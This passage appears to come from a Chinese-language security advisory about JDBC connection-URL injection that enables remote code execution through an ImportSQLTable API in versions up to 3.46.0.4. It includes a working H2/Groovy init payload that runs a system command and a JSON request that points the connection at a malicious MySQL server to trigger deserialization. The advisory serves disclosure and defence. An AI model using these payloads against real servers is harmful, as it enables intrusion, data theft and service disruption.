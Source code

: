 攻击者通过恶意 URL 触发，例如利用 MySQL、PostgreSQL 或 Derby 驱动程序。  
  
示例恶意 JDBC URL：  
```
    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"calc\")" + "})" + "def x";
    String url    = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "';
```  
  
攻击者可利用某些 JDBC 驱动（如   
  
mysql-connector-java-8.0.19.jar）通过反序列化链触发 RCE。  
  
**Proof of Concept：**  
  
攻击者启动一个恶意MySQL服务器/  
  
提交恶意 API 请求（如   
/99/ImportSQLTable），内容包括如下 JSON 数据：  
```
       {
         "connection_url": "jdbc:mysql://127.0.0.1:39502/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CC44_calc",
         "table": "my_table",
         "select_query": "SELECT * FROM my_table WHERE date > '2023-01-01'",
         "username": "deser_CB_calc",
         "password": "my_password",
         "use_temp_table": "true",
         "temp_table_name": "temp_my_table",
         "columns": "column1,column2,column3",
         "num_chunks_hint": "10",
         "_exclude_fields": "frames/frame_id"
       }
```  
  
3. 在目标服务器执行攻击代码，完成远程命令执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞影响**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
**受影响版本：**版本<=3.46.0.4  
  
**技术影响：**  
  
1. 远程代码执行（RCE）：通过 JDBC 配置注入恶意代码。  
  
2. 数据泄露：  
攻击者可能访问模型数据、数据库内容等敏感信息。  
  
3. 系统破坏：  
执行恶意命令可能导致服务中断或数据破坏。  
  
  
  
  